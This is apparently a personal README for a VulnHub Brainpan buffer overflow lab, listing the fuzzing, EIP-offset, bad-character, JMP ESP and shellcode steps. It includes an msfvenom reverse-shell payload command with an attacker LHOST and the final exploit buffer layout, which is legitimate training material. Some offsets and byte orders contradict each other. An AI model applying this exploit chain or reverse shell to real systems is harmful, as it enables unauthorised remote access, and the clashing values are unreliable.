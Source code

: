 # bufferOverflow

This is my first BufferOverflow exerise - VulnHub Brainpan

Tool: Immunity Debugger

### Step 1 - Find the EIP 
  using fuzzing to locate the buffer overflow point - the EIP address
  
  Create an array of buffers, from 1 to 5900, with increments of 100. Send the buffer to the 
  
  target until received system crash  and checked the size of buffers that made the system crash

  Program: 1-fuzzer_eip.py
  
### Step 2 Control the EIP address 
 
  2.1 by binary tree analysis

  2.2 using metasploit
  Generate a pattern of string and send to the system. check the EIP 
  
    locate the pattern_create
    
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 9999
    
    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 9999 -q 39694438
    
  Program: 2-controlling-eip.py
    
   
### Step 3 Locating Space and prepare the shellCode

    Finding the ESP addess 
    buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)
  
  Program: 2-controlling-eip.py

### Step 4 Check Bad Characters

    Send \x01...\xff to the system and check which char(s) have been truncated
    Program: 3-controlling-eip.py
  

### Step 5 Locate the JMP ESP
    
As the ESP address can be changed during each execution, we need to find a "JMP ESP" instrcution to go to the ESP location 
 
    /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
  
    JMP ESP address => \xe4\xff
    
### Step 6 check any memory protections such as DEP adn ASLR
    
    Find the program or DLL that can be used for their "JMP ESP" instruction.
    
    Immunity Debugger Command: !mona modules
    
   
  Immunity Debugger Command: !mona find -s "\xe4\xff" -m <program name>
                         e.g. !mona find -s “\xff\xe4” -m "libspp.dll"
  
  
### Step 7 Generating ShellCode using Metasploit

    Metasploit Command: msfvenom -l payloads
  
    Metasploit Command: msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443  EXITFUNC-thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
  
    -f format
    -e encode
    -b exclude character 
    EXITFUNC-thread exit the function after exploit which makes the program can still running for next exploit.
 
 ### Step 8 Sending the ShellCode 
 
    filler = "A" * 780
    eip = "\x83\x0c\x09\x10" <- this address is pointing the the JMP ESP instruction set
    offset = "C" * 4
    nops = "\x90" * 10
    inputBuffer = filler + eip + offset + nops + shellcode
 
  Program: 4-expolit-lin.py
  
  Program: 4-expolit-win.py
 
  
